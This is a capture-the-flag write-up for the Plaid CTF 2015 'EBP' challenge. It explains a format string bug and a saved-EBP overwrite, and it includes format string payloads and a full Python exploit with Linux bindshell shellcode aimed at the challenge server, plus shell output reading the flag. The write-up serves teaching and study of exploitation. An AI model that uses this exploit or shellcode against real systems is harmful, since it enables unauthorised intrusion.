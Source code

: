 # Plaid CTF 2015: EBP

**Category:** EBP
**Points:** 160
**Description:** 

>Pwnable (160 pts)
>nc 52.6.64.173 4545 
>
>Download: [%p%o%o%p](challenge/ebp.elf).

## Write-up

We start by first checking the binary:

>```bash
>$ file ebp
>ebp: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf994804ecd68699809b56d85dbba1038de9f74b0, not stripped
>```

A stripped 32-bit ELF binary. Let's see what checksec has to say:

>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

Ok, no protections to worry about. Let's load EBP into IDA and decompile it:

>```c
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  int result; // eax@3
>
>  while ( 1 )
>  {
>    result = (int)fgets(buf, 1024, stdin);
>    if ( !result )
>      break;
>    echo();
>  }
>  return result;
>}
>
>int echo()
>{
>  make_response();
>  puts(response);
>  return fflush(stdout);
>}
>
>int make_response()
>{
>  return snprintf(response, 0x400u, buf);
>}
>```

We can spot a very straight-forward format string bug in make_response (where we control the format specifier in buf). Let's first try to dump the stack with it:

>%x.%x.%x.%x.%x.
>b76147a0.b7754ff4.0.bfa14cb8.804852c

Given that buf is a variable stored in the .bss section, no matter how far into the stack we dig, we won't encounter our own buffer so we won't get the usual write-anything/anywhere situation. But if we look at our stack dump we can see that the 5th DWORD on the stack is the return address from the call to make_response, indicating the 4th DWORD is the old EBP value. If we can overwrite the old EBP value we know that at the function epilogue handling it will do the following:

>```asm
>leave
>retn
>```

Which allows us to effectively:

>```asm
>mov eip, [old_ebp+4]
>```

So let's say we want to overwrite old EBP with 0x41414141:

>(364931861*2+364931860 + 3) = 0x41414141

We craft the following format string:

>%364931861x.%364931861x.%364931860x.%n

So if we can point old_ebp to 4 bytes before an address holding the address we want to overwrite eip with we hijack control flow. Given that our buf is located in the static .bss section at 0x0804A080 we can overwrite old_ebp with (0x0804A080-4) = 0x0804A07C and use the following string:

>AAAA%44840317x%44840317x%44840318x%n

To overwrite EIP with 0x41414141. Now for the final part we need to put our shellcode in our buffer and overwrite EIP with the address of our shellcode. eip_overwrite = (0x0804A080 + n) where n is the length of the FMS exploit (36 bytes) so eip_overwrite = 0x0804A0A4 giving the fms exploit: \xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n<shellcode>

Note that we will need to keep our original socket open in order to prevent xinetd (which is running the challenge) from killing the exploited process.

The following dirty [little exploit](solution/ebp_sploit.py) will do the trick:

>```python
>#!/usr/bin/python
>#
># Plaid CTF 2015
># EBP (PWN/160)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>
>#
># Linux bindshell port 4444
>#
>buf =  ""
>buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
>buf += "\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51"
>buf += "\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04"
>buf += "\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f"
>buf += "\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f"
>buf += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>
>host = '52.6.64.173'
>port = 4545
>
>h = remote(host, port, timeout = None)
>
>print "[*]Sending exploit..."
>exploit = "\xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n" + buf
>h.send(exploit + "\n")
>print "[+]Exploit sent!"
>msg = h.recv(1024)
>print msg
>
>h.close()
>```

Running it gives us:

>```bash
>$ python ebp_sploit.py
+] Opening connection to 52.6.64.173 on port 4545: Done
[*]Sending exploit...
> $ nc 52.6.64.173 4444
> id
> uid=1001(problem) gid=1001(problem) groups=1001(problem)
> ls /home/problem
> ebp
> flag.txt
> cat /home/problem/flag.txt
> who_needs_stack_control_anyway?
>```